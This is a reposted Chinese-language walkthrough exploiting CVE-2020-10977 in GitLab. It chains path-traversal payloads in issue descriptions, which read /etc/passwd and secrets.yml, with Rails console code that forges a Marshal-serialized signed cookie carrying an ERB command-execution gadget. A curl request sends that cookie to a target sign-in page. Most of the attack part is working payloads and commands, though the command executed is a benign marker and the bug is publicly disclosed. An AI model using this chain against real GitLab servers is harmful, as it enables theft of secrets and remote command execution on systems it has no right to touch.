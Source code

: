 # CVE-2020-10977 Gitlab任意文件读取导致远程命令执行

**任意文件读取**

新建两个测试项目

在其中一个project中创建新的issue，在其问题描述中输入下方代码，然后提交


```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)

```

创建issue成功后点击move issue，将它移动到test2中

test2中的issue中带了一个password附件

点击下载password附件，用记事本方式打开，发现其内容就是/etc/password的内容

**RCE（remote command/code execute）**

利用任意文件读取漏洞

下载/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml文件，获取secret_key_base

![](media/16096808105538/16096808648174.jpg)



```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)

```

下载secrets.yml，获取secret_key_base

在自己的攻击机上搭建一个gitlab环境（详见环境搭建笔记）

将目标机下载下来的secerts.yml覆盖在自己攻击机上/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

（也可以只替换secret_key_base）

使用gitlab-rails console执行以下命令


```
gitlab-rails console #进入rails console
```

依次输入：


```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `echo flag was here > /tmp/flag` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

获取cookie，构造语句：


```
curl -vvv 'http://192.168.1.86:8888/users/sign_in' -b "experimentation_subject_id=cookie"

```

（ps：experimentation_subject_id参数输入rail console获取的cookie值）


通过任意文件读取下载/tmp/flag文件，内容：“flag was here”，说明命令执行成功！

EXP：https://www.exploit-db.com/exploits/48431

参考：https://hackerone.com/reports/827052

来源csdn博客，原文已删。

https://forum.ywhack.com/thread-114698-1-3.html

